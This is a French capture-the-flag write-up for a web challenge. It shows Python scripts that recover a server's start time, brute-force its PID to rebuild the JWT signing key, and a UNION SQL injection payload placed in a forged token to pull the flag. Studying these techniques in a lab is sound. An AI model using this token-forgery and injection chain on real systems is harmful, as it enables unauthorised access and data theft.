










# Your region's finest

**Web**

You’ve been informed that a website might be serving as a front for a large criminal network. Part of their revenue supposedly comes from selling cookies that can make you float like an airship… A rather tempting proposition. Their slogan, it seems, is: "Always wondered how to get the coolest and the highest quality products in your region ? Search no more, this new website allows you to do so !"

Fichiers : app.py

---

## Inspection du code source

Sur ce challenge, on a la source (!!) du code du serveur. On peut donc inspecter cette source pour trouver des éléments intéressants dedans.

Voici une liste des éléments notables du code source.

### random.seed()



La source du random du site est basée sur le moment où le serveur a été démarré ainsi que son PID. C'est une assez mauvaise source d'aléatoire. Si l'on découvre le moment ou le serveur a été démarré, on doit pouvoir reverse l'entièreté de l'aléatoire du site.

### Clé de chiffrement des JWT


La clé de chiffrement des JWT est basé sur la source d'aléatoire précédente. Si on arrive a la reverse, on doit pouvoir forger nos propres token.

### ORM
Dans le script, on voit la présence d'un ORM, qui empêche les SQL injection quand il est bien utilisé. Cependant, on voit qu'une requête a été laissée sans protection.



On voit qu'on peut injecter des informations dans la requête SQL à l'aide du champ favorite_product_id. En regardant légèrement plus haut, on voit que ce champ provient du JWT. Il faut donc que l'on fasse notre injection via un JWT qu'on aura forgé nous même.

### Timestamp de lancement du serveur
Enfin, la dernière brique se trouve dans la requête de healthcheck.



Cette requête nous permet de savoir depuis combien de temps le serveur est en ligne, et donc en soustrayant cette valeur au timestamp auquel on fait la requête, on peut avoir le timestamp de lancement du serveur.

### Prix des produits
Enfin, on peut voir que les prix des items sont générés aléatoirement à l'initialisation du serveur. Cela nous permettra de vérifier de notre seed d'aléatoire est cohérente et de nous épargner le fait de tester la clé des JWT.




**Nous avons désormais toutes les briques pour construire notre attaque.**

## L'attaque

Commençons par récupérer le timestamp de lancement du serveur. Pour cela, on écrit le script suivant

```python

import requests  
import time  
import random  
import math  
import string
import base64
  
result = []  
for _ in range(100):  
    timeStart = time.time()  
    url = "http://challenges.hackday.fr:58990/healthz"  
    response = requests.get(url).json()["uptime"]  
    result.append(math.floor(timeStart - response))  
baseTimestamp = min(result) - 30  
# on enlève 30s par sécurité, mieux vaut être trop tôt puisque l'on va  
# tester avec plusieurs PID et qu'ils s'additionnent simplement au  
# timestamp, ils vont donc compenser ce qu'on a enlevé  
```

Ensuite, on peut bruteforcer le PID avec le script suivant :
```python
for pid in range(4194304):  
    random.seed(baseTimestamp + pid)  
    useless = "".join(random.choice(string.printable) for _ in range(32))  
    KEY = "".join(random.choice(string.printable) for _ in range(32))  
    a = random.randrange(10, 100)  
    b = random.randrange(10, 100)  
    c = random.randrange(10, 100)  
    if a == 43 and b == 58 and c == 40:
	    # Ici, les valeurs des prix des 
        print(baseTimestamp, pid)  
        print(KEY)  
        print(str(base64.b64encode(bytes(KEY, "utf-8"))))  
        break
```

On obtiens les valeurs suivantes :



On va maintenant étudier la SQL injection : 
On dispose de la requête suivante.



On ajoute donc une partie finale pour obtenir cette requête.

```sql
SELECT * FROM product WHERE id = 1 AND 1=2 UNION SELECT id, flag as name, null, null, null, null FROM flag
```

On va ensuite pouvoir faire notre propre cookie avec https://jwt.io. On commence par charger la clé en base64.

On importe notre cookie :



On le modifie avec notre SQLi :



Il nous suffit ensuite de remettre notre cookie dans le navigateur, et d'aller sur la page `/favorite_product_info`



**Flag : HACKDAY{Th4t_s_S0m3_g000000000000d_qu4lity!}**

nhy.
